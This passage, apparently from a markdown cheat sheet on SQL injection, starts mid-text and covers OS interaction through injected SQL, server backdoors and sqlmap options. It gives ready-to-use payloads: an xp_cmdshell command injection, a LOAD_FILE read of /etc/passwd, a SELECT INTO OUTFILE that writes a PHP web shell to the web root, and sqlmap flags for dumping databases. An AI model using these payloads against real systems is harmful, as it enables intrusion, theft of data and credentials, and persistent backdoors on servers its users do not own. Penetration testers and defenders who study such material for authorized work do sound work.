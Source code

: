      The injection is “integrated” with normal script tags or other data to hide in plain sight.

------

### 7. Interacting with the Operating System

- OS Shell via DB

  - Some DB engines (e.g., MSSQL) allow commands via `xp_cmdshell`.

  - Example:

    ```sql
    '; EXEC xp_cmdshell 'dir C:\'; --
    ```

- File System Access

  - Use MySQL’s `LOAD_FILE()`, or MSSQL commands.

  - Example (MySQL):

    ```sql
    SELECT LOAD_FILE('/etc/passwd');
    ```

------

### 8. Creating Server Backdoors Using SQL Injection

- Getting OS Shell

  - Inject a PHP web shell if DB user can write files.

  - Example:

    ```sql
    SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE '/var/www/html/shell.php';
    ```

- Finding Directory Structure

  - Example (MySQL):

    ```sql
    SELECT @@datadir;
    ```

- Database Backdoor

  - Malicious triggers or stored procedures that run automatically.

------

### 9. `sqlmap` Usage Notes

| Parameter         | Meaning                                                 |
| ----------------- | ------------------------------------------------------- |
| `-u`              | Target URL, e.g., `-u "http://site.com/index.php?id=1"` |
| `--data`          | POST data                                               |
| `--dbs`           | Enumerate databases                                     |
| `--tables`        | Enumerate tables in a DB                                |
| `--columns`       | Enumerate columns in a table                            |
| `--dump`          | Dump database table entries                             |
| `--banner`        | Retrieve DB banner info                                 |
| `--current-user`  | Show current DB user                                    |